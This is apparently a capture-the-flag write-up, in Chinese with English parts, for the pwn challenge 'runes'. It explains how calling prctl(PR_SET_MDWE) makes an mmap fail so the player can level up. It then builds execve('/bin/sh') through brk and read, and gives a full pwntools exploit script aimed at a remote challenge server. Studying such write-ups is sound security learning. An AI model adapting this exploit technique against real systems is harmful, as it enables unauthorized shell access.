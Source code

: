 # runes

> Show me your runes.
>> hint:
>> * No intended vulnerability in the bzImage/kernel, please exploit the
>>   userspace chal binary.
>> * As the challenge's name implies, you need to focus on the `syscall`
>>   aka rune in this challenge. Find a way to **weaken the dark dragon's
>>   power** once your character becomes strong enough.
>> * All syscall numbers（系统调用号） used in the intended solution are
>>   under 200 and relatively well used.

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|Linux |6.6   |

## 解题思路

`chal`实现了一个小游戏，基础等级是`1`，可以执行任意syscall，并且可以控制前三个参数，
但是这3个参数必须小于`等级*100`。小游戏中可以升级，但是不可能超过7，
而指针对应的无符号数非常大，看到如果打败 dark dragon 可以升级到`0x7ffffffffff`，
然后就可以输入指针了。为了打败 dark dragon ，需要把它的血量打到1，
也就是需要让预期的`mmap`调用失败，如果成功，人物血量会直接归零。

寻找符合条件的syscall，先筛掉所有包含指针的syscall，由于程序打开的 `memfd`
被dup到了`1023`，而等级不可能在正常情况下大于10，因此也无法关闭 `memfd` 。
最后选择了`prctl`，在Linux 6.3加入了`PR_SET_MDWE`，开启这个security
bit后可以禁止mmap一段`?wx`的内存，并且不会影响到execve后的新程序。
在因此设置后就能成功升级。`file bzImage`，是6.6的内核，满足条件。

剩下的问题是保护全开，没有泄露任何指针。可以通过`brk`调用申请堆内存，
在上面写数据。由于sh链接到了busybox，因此还需要设置argv。最后
`execve(“/bin/sh", {“sh", NULL}, NULL)` 拿shell。

## EXPLOIT

```python
from pwn import *
from pwnlib.constants.linux.amd64 import __NR_prctl, __NR_alarm, __NR_brk, __NR_read, __NR_execve
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './chal'
SYS = constants

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('121.41.238.106', 42898)

    def init_name(name: str):
        info('Waiting for vm to boot')
        sh.sendlineafter(b'tell me your name', name.encode())
        info(f'Script by {name}')

    def attack_dragon(rax: int, rdi: int=0, rsi: int=0, rdx: int=0, tosend: bytes=None) -> int:
        sh.sendlineafter(b'Your Journey Continues', b'2')
        sh.sendlineafter(b'Invoke the Forbidden Runes', b'3')
        sh.sendlineafter(b'60 3 3 3', f"{int(rax)} {int(rdi)} {int(rsi)} {int(rdx)}".encode())
        if tosend:
            sleep(0.125)
            sh.send(tosend)
        if rax == __NR_execve:
            return
        sh.recvuntil(b'force answers:')
        sysret = int(sh.recvline())
        sh.sendlineafter(b'Impossible', b'1')
        return sysret

    init_name('hkbin & Rocket & haraniN')
    attack_dragon(__NR_prctl, 65, 1) # PR_SET_MDWE; PR_MDWE_REFUSE_EXEC_GAIN
    attack_dragon(__NR_alarm, 0)     # reset alarm timer
    brk = attack_dragon(__NR_brk, 0) # initial brk
    success(GOLD_TEXT(f"Get brk: {brk:#x}, try to extend 0x1000"))
    brk_top = attack_dragon(__NR_brk, brk + 0x1000)
    assert brk_top == brk + 0x1000, "failed to extend brk"
    sent = attack_dragon(__NR_read, 0, brk, 16, b'/bin/sh\0' + p64(brk + 5) + b'\n') # "/bin/sh" "sh" NULL
    assert sent == 16, "failed to send /bin/sh"
    info('Now try to open the shell')
    attack_dragon(__NR_execve, brk, brk + 8, 0) # execve("/bin/sh", {"sh", NULL}, NULL)

    sh.clean()
    sh.interactive()
    sh.close()
```

![flag](assets/runes.png)
